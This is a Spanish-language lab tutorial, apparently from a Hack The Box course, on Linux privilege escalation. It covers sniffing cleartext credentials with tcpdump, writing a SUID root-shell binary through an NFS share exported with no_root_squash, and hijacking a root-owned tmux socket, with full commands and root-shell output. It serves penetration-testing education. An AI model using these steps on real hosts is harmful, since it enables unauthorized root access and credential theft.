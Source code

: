 ## Passive Traffic Capture

Si `tcpdump` está instalado, los usuarios sin privilegios pueden capturar el tráfico de red, incluyendo, en algunos casos, credenciales que se transmiten en texto claro. Existen varias herramientas, como [net-creds](https://github.com/DanMcInerney/net-creds) y [PCredz](https://github.com/lgandx/PCredz) que se pueden usar para examinar los datos que se transmiten. Esto puede resultar en la captura de información sensible como números de tarjetas de crédito y cadenas de comunidad SNMP. También puede ser posible capturar hashes de Net-NTLMv2, SMBv2 o Kerberos, los cuales podrían ser sometidos a un ataque de fuerza bruta offline para revelar la contraseña en texto claro. Protocolos de texto claro como HTTP, FTP, POP, IMAP, telnet o SMTP pueden contener credenciales que podrían ser reutilizadas para escalar privilegios en el host.

---

## Weak NFS Privileges

Network File System (NFS) permite a los usuarios acceder a archivos o directorios compartidos a través de la red alojados en sistemas Unix/Linux. NFS utiliza el puerto TCP/UDP 2049. Cualquier montaje accesible puede ser listado remotamente emitiendo el comando `showmount -e`, que lista la exportación del servidor NFS (o la lista de control de acceso para sistemas de archivos) que los clientes NFS.

```r
showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

Cuando se crea un volumen NFS, se pueden configurar varias opciones:

|Opción|Descripción|
|---|---|
|`root_squash`|Si el usuario root se usa para acceder a las comparticiones NFS, será cambiado al usuario `nfsnobody`, que es una cuenta sin privilegios. Cualquier archivo creado y subido por el usuario root será propiedad del usuario `nfsnobody`, lo cual previene que un atacante suba binarios con el bit SUID establecido.|
|`no_root_squash`|Los usuarios remotos que se conecten a la compartición como el usuario root local podrán crear archivos en el servidor NFS como el usuario root. Esto permitiría la creación de scripts/programas maliciosos con el bit SUID establecido.|

```r
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Por ejemplo, podemos crear un binario SETUID que ejecute `/bin/sh` usando nuestro usuario root local. Luego podemos montar el directorio `/tmp` localmente, copiar el binario propiedad del root al servidor NFS y establecer el bit SUID.

Primero, crea un binario simple, monta el directorio localmente, cópialo y establece los permisos necesarios.

```r
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```r
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```r
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

Cuando volvamos a la sesión de bajo privilegio del host, podemos ejecutar el binario y obtener una shell root.

```r
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```r
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

---

## Hijacking Tmux Sessions

Terminal multiplexers como [tmux](https://en.wikipedia.org/wiki/Tmux) pueden ser usados para permitir múltiples sesiones de terminal sean accesibles dentro de una única sesión de consola. Cuando no estamos trabajando en una ventana `tmux`, podemos desconectarnos de la sesión, dejándola activa (por ejemplo, ejecutando un escaneo `nmap`). Por muchas razones, un usuario puede dejar un proceso `tmux` ejecutándose como un usuario con privilegios, como root configurado con permisos débiles, y puede ser secuestrado. Esto puede hacerse con los siguientes comandos para crear una nueva sesión compartida y modificar la propiedad.

```r
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

Si podemos comprometer a un usuario en el grupo `dev`, podemos adjuntarnos a esta sesión y obtener acceso root.

Verifica cualquier proceso `tmux` en ejecución.

```r
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirma los permisos.

```r
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Revisa nuestra membresía en grupos.

```r
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finalmente, adjúntate a la sesión `tmux` y confirma los privilegios root.

```r
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```